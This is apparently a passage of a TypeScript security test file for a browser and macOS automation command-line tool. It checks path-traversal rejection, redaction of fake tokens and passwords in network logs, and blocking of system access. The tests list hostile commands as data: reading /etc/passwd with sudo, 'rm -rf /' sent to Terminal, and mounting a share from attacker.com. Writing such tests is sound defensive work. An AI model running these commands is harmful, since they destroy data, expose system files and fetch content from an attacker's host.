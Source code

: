 ```typescript
        '~/../../../../../../var/log/system.log'
      ];
      
      for (const path of traversalPaths) {
        const result = await runCommand('files', ['upload', '--selector', 'input[type=file]', '--path', path]);
        expect(result.success).toBe(false);
        expect(result.code).toBeOneOf([
          ERROR_CODES.INVALID_PATH,
          ERROR_CODES.SECURITY_VIOLATION,
          ERROR_CODES.FILE_NOT_FOUND
        ]);
        expect(result.error).toMatch(/(traversal|security|invalid path)/i);
      }
    });
    
    it('should sanitize sensitive data in network logs', async () => {
      // Start network monitoring
      await runCommand('netlog', ['start']);
      
      // Simulate requests with sensitive data
      await runCommand('dom', ['eval', '--js', `
        fetch('/api/login', {
          method: 'POST',
          headers: {
            'Authorization': 'Bearer secret-token-12345',
            'X-API-Key': 'api-key-67890',
            'Cookie': 'session=abc123; auth=xyz789'
          },
          body: JSON.stringify({
            username: 'user@test.com',
            password: 'secret-password',
            api_key: 'another-secret-key'
          })
        });
      `]);
      
      await runCommand('wait', ['--ms', '2000']);
      
      // Get network logs
      const netResult = await runCommand('netlog', ['dump', '--format', 'json']);
      expect(netResult.success).toBe(true);
      
      // Verify sensitive data is sanitized
      const logString = JSON.stringify(netResult.data);
      expect(logString).not.toContain('secret-token-12345');
      expect(logString).not.toContain('api-key-67890');
      expect(logString).not.toContain('secret-password');
      expect(logString).not.toContain('another-secret-key');
      
      // Verify sanitization markers are present
      expect(logString).toContain('[REDACTED]');
      
      await runCommand('netlog', ['stop']);
    });
  });
  
  describe('System Security', () => {
    it('should prevent unauthorized system access attempts', async () => {
      const systemCommands = [
        'do shell script "sudo cat /etc/passwd"',
        'tell application "Terminal" to do script "rm -rf /"',
        'mount volume "smb://attacker.com/malware"',
```

  [ERROR_CODES.PERMISSION_DENIED]: {
  [ERROR_CODES.CHROME_NOT_RUNNING]: {